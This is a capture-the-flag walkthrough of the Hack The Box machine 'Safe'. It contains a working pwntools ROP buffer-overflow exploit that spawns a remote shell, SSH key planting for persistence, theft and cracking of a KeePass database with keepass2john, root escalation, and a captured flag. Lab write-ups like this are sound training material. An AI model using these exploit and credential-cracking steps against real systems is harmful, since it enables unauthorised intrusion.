









# Safe

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/199"></a>
  <br>
</h1>
<h4 align="center"> Author: <a heref="https://www.hackthebox.eu/home/users/profile/91108" > thek</a></h4>

***

__Machine IP__: 10.10.10.147

__DATE__ : 16/09/2019

__START TIME__: 8:42 PM

***

## Nmap


I've got two open port and one filtered port. Obviously we'll start our enumeration with HTTP service.

***

## HTTP

If we visit the Website we'll get the ` Apache2 Debian Default Page `.
I ran `gobuster` on it but found nothing there.



It says something about `myapp` and port `1337`. So First I visited the URL `http://10.10.10.147/myapp` which gave me an `Elf` named `myapp`. This was an ELF binary which is supposedly `echoing` back the command we enter but we don't see any output.

You can follow [Ippsec's Bitterman](https://forum.hackthebox.eu/discussion/92/campctf2015-bitterman-video-by-ippsec) to understand the process of exploiting this binary.

```python
from pwn import *

r = remote('10.10.10.147', '1337')

# Found offset: 120
junk1 = b"\x90" * 120
junk2 = b"\x90" * 16
shtext = b"/bin/sh\x00"  # just 8 bytes.
r.recvuntil("average")
r.recvuntil("\n")

plt_system = p64(0x401040)
plt_main = p64(0x40115f)
pop_r131415_ret = p64(0x401206)  # pop the shtext inside stack, then fill others with nop
mov_rsp_to_rdi = p64(0x401156)  # followed with a jmp r13

payload = junk1 + pop_r131415_ret + plt_system + junk2 + mov_rsp_to_rdi + shtext + plt_main

r.send(payload)
r.interactive()
```

This exploit will give us shell on the system.



If we look at the `user's` home directory we can see some images, password file and user flag.



First I got the user flag.



`7a29ee9b0fa17ac013d4bf01fd127690`

***

Once I had the User flag. I decided to get the `user's` SSH key but it didn't had any. The `.ssh` folder in `/home/user` only had an `authorized_key` so I decided to copy my own Public key there so I can login via ssh.



We can see that there are lot of images there so I downloaded it and used some steganography but none of them had anything in it. So I shifted my focus to `MyPasswords.kdbx`. I downloaded the file using `scp`.

```bash
➜ scp user@10.10.10.147:/home/user/MyPasswords.kdbx ./
```

Then I ran

```bash
$ keepass2john MyPasswords.kdbx > hash.txt
```

And tried cracking it but then [@FolkLore_93](@FolkLore_93) gave me hint that I need to use `Images` as one of the `Key file`.

So I started using one after the other and

```bash
$ ➜ keepass2john -k IMG_0547.JPG MyPasswords.kdbx > hash.txt
```
This gave me password in a minute.


Once I had the cracked password I used that and the image file used before to open the database and in that I found the password for the `root`.



After that I did `su root` and used that password to become root.





***
Thanks for reading, Feedback is always appreciated

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
